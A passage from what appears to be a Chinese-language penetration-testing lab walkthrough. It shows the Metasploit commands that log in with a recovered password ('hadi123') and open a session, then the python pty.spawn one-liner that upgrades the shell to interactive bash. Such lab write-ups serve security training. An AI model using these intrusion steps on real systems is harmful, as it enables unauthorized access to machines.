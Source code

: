 15. 这个字典竟然没密码，还是生成的简单了，实际上密码是hadi123，直接添加msf里，破解成功是这样显示的：

``` bash
> set password hadi123
> run

>sessions -i 1  #进入编号1的交互session 
```

![](./1052/18.PNG)

16. session里交互不是很方便，可以执行下面的python脚本把bash定向到回话中，优化交互界面：

``` bash
python -c "import pty;pty.spawn('/bin/bash')"
```

![](./1052/19.PNG)
